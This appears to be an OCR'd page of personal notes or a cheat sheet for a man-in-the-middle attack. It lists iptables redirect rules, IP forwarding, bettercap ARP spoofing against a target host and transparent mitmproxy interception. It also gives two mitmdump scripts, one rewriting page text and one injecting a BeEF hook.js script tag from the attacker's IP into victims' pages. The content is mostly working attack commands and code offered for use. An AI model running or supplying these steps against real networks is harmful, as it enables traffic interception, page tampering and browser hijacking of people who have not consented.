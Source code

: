 Listen network:
 
Redirect http and https traffic to port 8080:
 
	•	iptables -t nat -F
	•	iptables -t nat -A PREROUTING -i eth0 -p tcp --dport 80 -j REDIRECT --to-port 8080
	•	iptables -t nat -A PREROUTING -i eth0 -p tcp --dport 443 -j REDIRECT --to-port 8080
	•	sudo bash -c 'echo 1 > /proc/sys/net/ipv4/ip_forward'
	•	echo "1" > /proc/sys/net/ipv6/conf/all/forwarding
	•	echo "0" > /proc/sys/net/ipv4/conf/all/send_redirects
 
Active ARP spoofing:
 
	•	bettercap
	•	set arp.spoof.targets 10.0.2.4
	•	set arp.spoof.fullduplex true
	•	arp.spoof on
 
Active MITM listening:
 
	•	mitmproxy --mode transparent --listen-host 10.0.2.5 #kali ip
 
Mitmdump & Beef:
 
Creation and injection Python:
 
	•	nano myscript.py
 
from mitmproxy import http
 
def response(flow: http.HTTPFlow):
    reflector = b"HACKED"
    flow.response.content = flow.response.content.replace(b"Science", reflector)
 
	•	mitmdump -s myscript.py --mode transparent --listen-host 10.0.0.4 --anticache
 
Install and use browser with beef:
 
	•	nano myscript.py
 
from mitmproxy import http
 
def response(flow: http.HTTPFlow):
    reflector = bytes("<script src='http://10.0.2.5:3000/hook.js'></script>", "UTF-8")
    flow.response.content = flow.response.content.replace(b"</head>", reflector)
 
	•	mitmdump -s myscript.py --mode transparent --listen-host 10.0.0.4 --anticache
 
Bettercap:
 
	•	net.show
	•	net.probe on
	•	net.show
	•	ticker on
 
	•	bettercap -T 10.1.1.12
 
https://www.kalitut.com/2019/04/how-to-install-and-use-bettercap.html
 
https://github.com/aancw/bettercap-ng/blob/master/caplets/beef-inject.js
